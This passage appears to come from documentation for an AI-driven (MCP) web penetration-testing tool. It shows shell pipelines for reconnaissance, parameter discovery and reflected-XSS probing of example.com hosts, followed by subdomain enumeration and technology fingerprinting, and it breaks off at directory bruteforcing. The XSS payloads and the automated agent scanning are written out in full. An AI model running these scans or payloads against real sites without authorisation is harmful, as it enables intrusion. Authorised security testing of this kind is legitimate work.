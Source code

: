 **Expected MCP Execution Sequence:**

```bash
# Phase 1: Reconnaissance (automatically executed by MCP)
curl -s "https://academic.example.com" -o initial_scan.html
grep -E "(form|input|textarea|select)" initial_scan.html
whatweb "https://academic.example.com"

# Phase 2: Parameter Discovery
cat initial_scan.html | grep -o 'name="[^"]*"' | cut -d'"' -f2 | sort -u
cat initial_scan.html | grep -o 'id="[^"]*"' | cut -d'"' -f2 | sort -u

# Phase 3: XSS Payload Testing
PARAMS=("search" "query" "q" "input" "term")
for param in "${PARAMS[@]}"; do
    echo "Testing parameter: $param"
    curl -G "https://academic.example.com/search" \
      --data-urlencode "$param=<script>alert('XSS')</script>" \
      -o "xss_test_${param}.html"
    
    # Check if payload is reflected
    if grep -q "<script>alert('XSS')</script>" "xss_test_${param}.html"; then
        echo "✓ XSS vulnerability found in parameter: $param"
    fi
done

# Phase 4: Advanced Payload Verification
curl -G "https://academic.example.com/search" \
  --data-urlencode "q=<img src=x onerror=alert(document.domain)>"
```

### Scenario 2: Comprehensive Web Application Assessment

**MCP Prompt:**
```
Perform a full web application penetration test on https://target-webapp.com including:

1. Subdomain enumeration
2. Technology stack identification
3. Directory and file discovery
4. Vulnerability scanning for OWASP Top 10
5. API endpoint testing
6. Security header analysis

Provide a professional report with risk ratings and remediation recommendations.
```

**MCP-Generated Testing Pipeline:**

```bash
#!/bin/bash
TARGET="target-webapp.com"

# 1. Subdomain Enumeration
echo "=== Subdomain Enumeration ==="
subfinder -d $TARGET -silent | tee subdomains.txt
amass enum -passive -d $TARGET -silent | tee -a subdomains.txt
assetfinder --subs-only $TARGET | tee -a subdomains.txt

# 2. Technology Identification
echo "=== Technology Stack Analysis ==="
for domain in $(cat subdomains.txt); do
    whatweb $domain | tee -a technology_stack.txt
done

# 3. Directory Bruteforcing
```